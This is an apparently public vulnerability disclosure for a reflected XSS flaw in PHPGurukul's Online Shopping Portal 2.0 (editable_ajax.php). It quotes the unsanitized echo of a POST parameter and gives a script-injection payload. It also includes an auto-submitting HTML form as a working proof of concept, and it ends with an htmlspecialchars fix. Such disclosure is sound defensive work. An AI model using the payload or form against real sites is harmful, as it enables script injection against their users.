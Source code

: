 # [XSS vulnerability] found in Online Shopping Portal 2.0 - (editable_ajax.php)


Affected Project: **Online Shopping Portal**

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/shopping-portal-free-download/)

Version: 2.0

Updated: 06 June 2024

Vulnerable path/file: /admin/assets/plugins/DataTables/examples/examples_support/editable_ajax.php

Injection parameter: `value`

<br />

Size: 30.5 MB

Sha256: 127e719bf4236a9140f146dd7a6ae54f2a9234b9e6f0aeda240e7a4905c6e73c

<br />

## Vulnerability Description:
The issue arises in the `value` paramateter because in the code it is  directly echoing the user-supplied input `($_POST['value'])` without any sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
echo $_POST['value'].' (server updated)';
```

<br />

## Injection Payload Tested:

We set `value` to:
```
"><script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a POST request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `Online Shopping Portal` looks like:

<br />

![Portal](https://i.postimg.cc/zf1f8fgt/1.png)

<br />

As it is a POST request we need to use a file `test_form.html` with the following content to be able to trigger the XSS popup:
```
<!DOCTYPE html>
<html>
<head>
    <title>Test XSS Injection</title>
</head>
<body>
    <form action="http://localhost/shopping/admin/assets/plugins/DataTables/examples/examples_support/editable_ajax.php" method="POST" id="xssForm">
        <input type="hidden" name="value" value='"><script>alert("XSS")</script>'>
        <input type="submit" value="Submit">
    </form>

    <script>
        // Automatically submit the form when the page loads
        document.getElementById('xssForm').submit();
    </script>
</body>
</html>
```

Then we have to open the file `test_form.html` in the browser:

For example url in the browser:
`file:///home/username/Desktop/test_form.html`

<br />

After submitting the payload using the file `test_form.html` the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/wBGg3TyY/2.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
echo htmlspecialchars($_POST['value'], ENT_QUOTES, 'UTF-8') . ' (server updated)';
```

<br />

> One Click Can Change Everything: Be Secure.
